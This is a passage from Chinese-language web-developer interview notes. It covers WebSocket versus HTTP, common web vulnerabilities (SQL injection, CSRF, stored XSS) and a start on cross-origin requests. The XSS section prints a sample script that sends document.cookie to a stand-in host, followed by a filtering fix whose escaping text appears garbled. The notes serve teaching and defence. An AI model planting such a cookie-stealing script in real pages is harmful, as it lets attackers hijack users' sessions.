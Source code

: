 相同点：
1. 都是一样基于TCP的，都是可靠性传输协议。
2. 都是应用层协议。

区别：
 	WebSocket是双向通信协议，模拟Socket协议，可以双向发送或接受信息。HTTP是单向的，客户端发送请求，服务器发送响应。当客户端向服务器发送请求时，该请求以HTTP形式发送，在接收到请求后，服务器会将响应发送给客户端。每个请求都与一个对应的响应相关联，在发送响应后客户端与服务器的连接会被关闭。websocket中服务器可以主动给客户端推送消息，而http必须先有请求再有响应。

应用场景：
	WebSocket

1. 即时Web应用程序
2. 游戏应用程序
3. 聊天应用程序

​	HTTP
​	 只想获取一次数据供应用程序使用，不需要服务器主动推送消息。

## 7、常见的WEB漏洞有哪些，如何解决

常见的 WEB 漏洞一般指的是 OWASP TOP10 十大安全漏洞。比如 SQL 注入漏洞、XSS 漏洞。

- SQL 注入 大名鼎鼎，对于 Java 而言，通过 SQL 预处理轻松解决。
- 跨站请求伪造
  CSRF。攻击者盗用了你的身份，以你的名义发送恶意请求，对服务器来说这个请求是完全合法的，但是却完成了攻击者所期望的一个操作，比如以你的名义发送邮件、发消息，盗取你的账号，添加系统管理员，甚至于购买商品、虚拟货币转账等。防范措施：1、验证
  HTTP Referer 字段。2、在请求地址中添加 token 并验证。
- 存储型 XSS 保存数据时未检测包含 js 或 html 代码，照成数据被读取并加载到页面时，会触发执行 js 或 html 代码。

样例：

```java
<script>
   document.getElementById('attacker').href='http://www.abc.com/receiveCookies.h
           tml?'+document.cookie;
</script>
```

解决：通过过滤器，对请求参数中的 Value 内容进行遍历，将转义为<和>。

## 8、什么是跨域请求，怎么解决

浏览器收到响应数据之后，会判断响应回数据的源和当前页面的源是否是属于同源。针对不同源，如果后端没有对响应字段进行处理，则响应回的数据会被浏览器直接过滤掉,并抛出异常。

![](image/image_QZ9N15RKDl.png)

协议，域名，端口三者其中存在不同都会形成跨域；故，当协议，端口，域名三者均相同时，浏览器就会认为是同源，允许加载该资源，否则为不同源。
